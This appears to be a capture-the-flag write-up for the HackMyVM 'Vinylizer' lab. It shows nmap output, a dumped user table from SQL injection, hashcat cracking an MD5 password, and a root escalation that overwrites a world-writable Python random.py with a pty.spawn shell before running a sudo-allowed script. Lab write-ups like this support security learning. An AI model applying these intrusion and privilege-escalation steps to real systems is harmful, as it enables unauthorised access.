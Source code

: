 ```yaml
---
title: Vinylizer Writeup
date: 2024-04-11
categories:
  - Writeups
tags:
  - Linux
  - Sql_injection
  - Enumeration
  - PrivEsc
  - HackMyVm
---
```



# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.0.211 08:00:27:6d:ec:17 PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
Host is up (0.00100s latency).

Not shown: 998 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 

|   256 f8:e3:79:35:12:8b:e7:41:d4:27:9d:97:a5:14:b6:16 (ECDSA)

|_  256 e3:8b:15:12:6b:ff:97:57:82:e5:20:58:2d:cb:55:33 (ED25519)

80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))

|_http-server-header: Apache/2.4.52 (Ubuntu)

|_http-title: Vinyl Records Marketplace

MAC Address: 08:00:27:6D:EC:17 (Oracle VirtualBox virtual NIC)

Device type: general purpose

Running: Linux 4.X|5.X

OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5

OS details: Linux 4.15 - 5.8

Network Distance: 1 hop

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


# Sql_injection

By accessing the website, we can directly see there is 'login.php'

 Let us try with sql injection.

```shell
+----+----------------------------------+-----------+----------------+

| id | password                         | username  | login_attempts |

+----+----------------------------------+-----------+----------------+

| 1  | 9432522ed1a8fca612b11c3980a031f6 | shopadmin | 0              |

| 2  | password123                      | lana      | 0              |

+----+----------------------------------+-----------+----------------+
```


Then we can use hashcat :

```shell
hashcat -a 0 -m 0 "9432522ed1a8fca612b11c3980a031f6" /usr/share/wordlists/rockyou.txt

9432522ed1a8fca612b11c3980a031f6:addicted2vinyl
```


# Privilege Escalation

By logging with the credential above via ssh :

```shell
shopadmin@vinylizer:/opt$ sudo -l
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py

```

By using tools like (linpeas.sh), we are able to find an file with an interesting permission:

```shell
-rwxrwxrwx  1 root root  33229 Apr 11 14:42 random.py
```

```shell
echo "import pty;pty.spawn('/bin/bash')" > /usr/lib/python3.10/random.py
sudo /usr/bin/python3 /opt/vinylizer.py
```

Then we are able to get root permission.

